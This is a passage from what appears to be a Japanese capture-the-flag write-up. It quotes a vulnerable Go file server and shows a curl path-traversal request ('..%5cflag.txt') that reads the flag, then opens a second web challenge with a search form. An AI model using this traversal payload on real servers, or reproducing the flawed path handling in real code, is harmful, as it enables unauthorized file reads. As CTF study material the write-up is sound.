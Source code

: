 ```go
	if err != nil {
		log.Fatal(err)
	}

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		name := filepath.FromSlash(filepath.Join(cwd, "public", path.Base(r.URL.Path)))
		path := strings.Replace(name, "\\", "/", -1)
		f, err := os.Open(path)

		if err != nil {
			http.NotFound(w, r)
			return
		}

		defer f.Close()
		io.Copy(w, f)
	})

	http.HandleFunc("/public/omikuji", func(w http.ResponseWriter, r *http.Request) {
		results := []string{"大吉", "中吉", "小吉", "凶", "大凶"}
		fmt.Fprintf(w, "<html><head><title>Go Mikuji | Fortune</title><meta charset=\"utf-8\"></head><body><h1>Go Mikuji</h1><p>Today's fortune: %s</p></body></html>", results[rand.Intn(len(results))])
	})

	http.ListenAndServe(":8080", nil)
}
```

`path := strings.Replace(name, "\\", "/", -1)` と大変怪しげな処理をしています。`main.go` と同じディレクトリに `flag.txt` があるようなので、これを利用して読み出せないか試してみましょう。

```
$ curl (省略)/..%5cflag.txt
WebC{pa7h_p4ckage_hand1e_fil3_p4th_4s_l0gical_p4th_9bfe7b26}
```

フラグが得られました。

```
WebC{pa7h_p4ckage_hand1e_fil3_p4th_4s_l0gical_p4th_9bfe7b26}
```

## [Web 400] Dolls Data 1
> ドールズフロントラインの戦術人形のデータベースを作りました！  
> 是非利用してみてください！
> 
> (URL)

与えられた URL にアクセスすると、次のような検索フォームが表示されました。

```html
︙
    <div class="form-wrapper">
      <select id="search-option">
        <option value="id">ID</option>
        <option value="rarity">レア度</option>
        <option value="type">種別</option>
        <option value="name">戦術人形名</option>
      </select>
      <input id="search-input" type="text" placeholder="検索したい文字列を入力してください">
      <button id="search-button" type="submit">送信</button>
      <button id="reset-button" type="reset">リセット</button>
    </div>
︙
```

